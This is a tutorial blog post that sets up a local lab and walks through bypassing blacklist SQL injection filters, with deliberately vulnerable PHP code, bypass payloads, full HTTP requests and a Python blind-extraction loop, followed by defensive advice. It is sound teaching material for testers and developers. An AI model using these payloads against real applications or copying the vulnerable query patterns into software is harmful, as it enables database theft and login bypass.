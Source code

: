 :slug: sqli-manual-bypass/
:date: 2020-05-20
:category: attacks
:subtitle: Bypassing SQLi filters manually
:tags: security, web, vulnerability, ethical hacking
:image: cover.png
:alt: Plague doctor injection. Photo by Sara Kurfeß on Unsplash: https://unsplash.com/photos/55HNtDVObk8
:description: When is presented SQL injection can be one of the most dangerous vulnerabilities. Not only because it can go unnoticed for a long time but it can also lead to remote code execution. Here we will see how to bypass certain controls that developers put in their code.
:keywords: Web, Security, Vulnerability, Hacking, SQLi, Input Validation.
:author: Jonathan Armas
:writer: johna
:name: Jonathan Armas
:about1: Systems Engineer, OSCP - Security+
:about2: "Be formless, shapeless like water" Bruce Lee
:source: https://unsplash.com/photos/55HNtDVObk8

= Manual SQLi bypass

One of the most recurring vulnerabilities are injection flaws,
not for nothing they are first in the link:https://owasp.org/www-project-top-ten/[OWASP Top Ten list].
This type of vulnerabilities
can disrupt all of your security and infrastructure,
almost any input can be an injection vector
and all must be controlled. Here `SQL injections` plays a big role,
not only because of the risk of information leakage
but also it can lead to remote command execution
or access to the internal network.

This vulnerability works when an attacker
injects code into the queries
that the application makes to the database
interfering with it’s normal operation.
This happens because the developers
did not validate data input properly
and also did not apply the best practices
to retrieve data from the database.
Let me give you an example; imagine this piece of code:

.Common sqli vulnerable code
[source, PHP]
----
$user = $_POST['user'];
$passwd = $_POST['passwd'];
$sql = "select id from users where user='$user' and passwd='$passwd'";
----

Here I created a common login page code
that checks for username and password.
The variables are introduced through a `POST` request
and there is no input validation.
An attacker could simply put
the well known `SQLi` payload `1' or '1'='1`
and bypass the login form.
But if I filter some characters like the `OR keyword`
or the `single quote` character
then it will be ok? Not so much.

== SQLi Bypass lab

To set up our lab,
we are going to use `Hashicorp's` link:https://www.vagrantup.com/[Vagrant];
the source files are below.
Create a folder with the name `sqli`
and save the `Vagrantfile` there.

.setting up the lab
[source, bash, linenums]
----
$ mkdir sqli
$ cd sqli
sqli$ nano Vagrantfile #Add here the content
----

.Vagrantfile
[source, ruby]
----
# -*- mode: ruby -*-
# vi: set ft=ruby :

Vagrant.configure("2") do |config|

  config.vm.box = "jarmasatfluid/sqlitest"
  config.vm.box_version = "1"
  config.vm.network "private_network", ip: "192.168.56.2"

end
----

Then run the environment using:

.vagrant up
[source, bash]
----
sqli$ vagrant up
----

This will create a `Linux` machine
with `LAMP` installed and configured.
At this point, everything we need has been completed
and is ready for us to launch an attack.

Now we can set up our attacking machine.
Here we are using link:https://www.kali.org/[Kali Linux] with `Vagrant` too,
but you can use whatever `OS` you prefer.

These are the tools that we are going to use:

* link:https://portswigger.net/burp[Burpsuite]
* link:http://netcat.sourceforge.net/[Netcat]
* link:https://tools.kali.org/web-applications/dirbuster[Dirbuster]
* link:https://www.python.org/[Python]

If you are using `Kali`, then everything is installed by default.

We are ready to go.

== Enumerating our server

First, we need to check the server ports.
We can use `nmap` or `ncat` to do it.

.port scanning
[source, bash, linenums]
----
$ nmap 192.168.56.2
$ ncat -vz 192.168.56.2 80
----

.nmap output
[source, bash]
----
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-20 13:32 SA Pacific Standard Time
Nmap scan report for 192.168.56.2
Host is up (0.00051s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
25/tcp open  smtp
80/tcp open  http
MAC Address: 08:00:27:0A:C5:08 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 10.19 seconds
----

.nc
[source, bash]
----
Ncat: Connected to 192.168.56.2:80.
Ncat: 0 bytes sent, 0 bytes received in 0.31 seconds.
----

Our server runs `Apache` on `port 80`.
Then using `Dirbuster`, we can search for directories on the web server.

.dirbuster
[source, bash]
----
$ dirb http://192.168.56.2/

DIRB v2.22
By The Dark Raver

START_TIME: Mon May 20 11:26:17 2020
URL_BASE: http://192.168.56.2/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

GENERATED WORDS: 4612

 Scanning URL: http://192.168.56.2/
==> DIRECTORY: http://192.168.56.2/code/
+ http://192.168.56.2/index.html (CODE:200|SIZE:11321)
+ http://192.168.56.2/server-status (CODE:403|SIZE:277)

 Entering directory: http://192.168.56.2/code/
+ http://192.168.56.2/code/admin.php (CODE:302|SIZE:2075)
+ http://192.168.56.2/code/index.php (CODE:200|SIZE:1098)

END_TIME: Mon May 20 11:26:25 2020
DOWNLOADED: 9224 - FOUND: 4
----

As we can see, there is an admin site to which we do not have access,
and a normal site were are our test cases.

== SQLi bypass attacks

There are three test cases,
the first one is the simplest.
It filters the `OR|AND` keywords
and also the space character.

.First SQLi filter
[source, PHP]
----
if(preg_match('/or|and| /i',$pass)) exit("<script type='text/javascript'>alert('Wrong');</script>");
----

The username is not injectable
because it uses a prepared statement
(this was intended to show the correct way of doing queries).
If we put any of those characters into the query
it should respond with a `Wrong` alert.

To bypass this we need to substitute those keywords,
the `OR` keyword with the double pipe character `||`,
the `AND` keyword with the double ampersand character `&&`,
in this case we need to `URL encode` it
because of the content type of the web application
resulting in `%26%26`,
finally the space character
can be bypassed using several substitutions:

. The block comment `/&#42;&#42;/`
. The ascii `%09` horizontal tab character
. The ascii `%0a` new line character
. The ascii `%0b` vertical tab character
. The ascii `%0c` new page character
. The ascii `%0d` carriage return character

So our well known SQLi payload
will change to someting like
`'/&#42;&#42;/||/&#42;&#42;/1=1#`

.first bypass
----
POST /code/one.php HTTP/1.1
Host: 192.168.56.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 44
Origin: http://192.168.56.2
Connection: close
Referer: http://192.168.56.2/code/one.php
Upgrade-Insecure-Requests: 1

user=admin&password='/**/||/**/1%3d1%23&s=OK
----

The next one is a little trickier,
it filters the same characters as before
plus the single quote character.
Also, it removes the use of the prepared statement
in the username variable
but validates the single quote character too.

.Second SQLi filter
[source, PHP]
----
if(preg_match('/\'/', $user)) exit("<script type='text/javascript'>alert('Wrong');</script>");
if(preg_match('/or|and| |\'/i',$pass)) exit("<script type='text/javascript'>alert('Wrong');</script>");
$sql = "SELECT * FROM users WHERE user = '$user' and passwd = '$pass'";
----

So, what we can do to bypass this?
The backslash character `\` is a special escape character
used to indicate other special characters in strings.
This is useful in our case
because if we inject that character into the username input
then the single quote character next to it
will act like a literal one
then the username string will end next to the password input:

.Backslash example
[source, PHP]
----
$sql = "SELECT * FROM users WHERE user = '$user\' and passwd = '$pass'";
----

And is only matter of injecting our code there,
the payload in the username is going to be `\`
and in the password field `/&#42;&#42;/||/&#42;&#42;/1=1/&#42;&#42;/--`

.second bypass
----
GET /code/two.php?user=%5C&password=%2F**%2F%7C%7C%2F**%2F1%3D1%2F**%2F--&s=OK HTTP/1.1
Host: 192.168.56.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://192.168.56.2/code/two.php
Upgrade-Insecure-Requests: 1

----

The last example combines it all
and adds more filters to the code,
also is a different type of vulnerability
because here we are going to bypass the filter
into an `ORDER BY` keyword.

.Third SQLi filter
[source, PHP]
----
if(preg_match('/\'|"|=|admin|substr|concat|group|ascii|or|and| |-|#|\s|\/\\\\|like|0x|col|case|when|sleep|benchmark/i',$_GET["by"])) exit("<script type='text/javascript'>alert('Wrong');</script>");
...
$stmt = $link->prepare("SELECT * FROM product where name like ? order by $order desc");
----

Here we can't use almost any keyword or function
and the `union select` won't work either.
In order to collect data from the database
from an `ORDER BY` keyword we need to use
an error based `SQLi` or a time based one.

So the first injection will be for testing the vulnerability,
let's inject a simple error based `SQLi`
where if it is true then it will order items using the id
and if it is false using the name:

. `?by=if(false,id,name)`
. `?by=if(true,id,name)`

Now let's add another layer,
we want to get information out of this
and in order to do that we need to make some queries.
In this example we are going to get the `guest` password
(if you want to get the admin password you should try it yourself).
Because the characters `=`, single and double quote are filtered
we need another way to get the information of the user that we want.
Here comes the `IN` operator and the `CHAR` function;
the `IN` operator allows us to specify multiple values in a `where` clause
but we can use only one if we want it,
and the `CHAR` function returns the `ASCII` character based on a number.
With those two a query for the guest password will be something like:

.guest password query
----
select passwd from users where user in(CHAR(103,117,101,115,116))
----

Where the string `guest`
is the combination of `103,117,101,115,116` `ASCII` characters.
Now the `MID` function will help us
to strip characters from that query
and get the password character by character.
This query will get the first character of the password:

.guest password character
----
mid((select passwd from users where user in(CHAR(103,117,101,115,116))),1,1)
----

Next we need to compare it against another character,
here we are going to use `IN` and `CHAR` again:

.guest password comparison
----
mid((select passwd from users where user in(CHAR(103,117,101,115,116))),1,1) in(CHAR(49))
----

Finally, we put our query into the previous `IF` function
and replace the spaces with the block comment:

.guest password comparison
----
?by=if(mid((select/**/passwd/**/from/**/users/**/where/**/user/**/in(CHAR(103,117,101,115,116))),1,1)/**/in(CHAR(49)),id,name)
----

With this we are able to get the `guest` password
using the `ORDER BY` function.
Doing this manually will take quite a while,
let's automatize this using `Python`.
The first thing that we need
is a function that makes our queries
and returns the response:

.make request function
[source, Python]
----
def make_request(parms):
    """
    Makes the request
    """
    response = requests.get(URL, headers=HEADERS, params=parms,
                            cookies=COOKIES)
    return response.text
----

Then we need to iterate
through each element of the password
and through each `ASCII` character:

.iterative query
[source, Python]
----
# Length of the password
for i in range(8):
  # All ASCII table
  for j in range(0, 128):
    query = 'if(mid((select/**/passwd/**/from/**/users/**/where/**/user/**/in(CHAR(103,117,101,115,116))),'+str(i)+',1)/**/in(CHAR('+str(j)+')),id,name)'

----

And finally check whether the list
is ordered by id:

.iterative query
[source, Python]
----
check = ">Description</th></tr></thead><tbody><tr><td>5"
if check in resp:
  PASSWORD += chr(j)
  break

----

And that's it, create the exploit,
execute it and wait for the result.
This could be done using any other query,
for example getting the `MySQL` user password hash.

== Solution

The first thing that someone with this problem need to do
is to implement prepared statements,
there is no way out of it.
Injections could occur in almost any database provider
(if not all of them).
With this the software will present a robust data querying
and discard the use of dynamic queries.

Next, is to implement whitelists
to validate the user input.
When the developers uses blacklist filtering
like the examples above
there is a risk of missing some parameter
that can allow the injection.
Whitelists are a better approach
because it only allows what is in there and nothing else.

Finally, implement the principle of least privilege.
I've encountered several databases executing queries
using the root user,
it is better to use limited users in our applications
because it limits the range of action
for the attackers that, in the worst scenario,
got access to the database.

If you want more information about protecting against `SQLi`,
you can check link:https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A1-Injection[OWASP]
or our [inner]#link:../../rules/#source[rules]#.
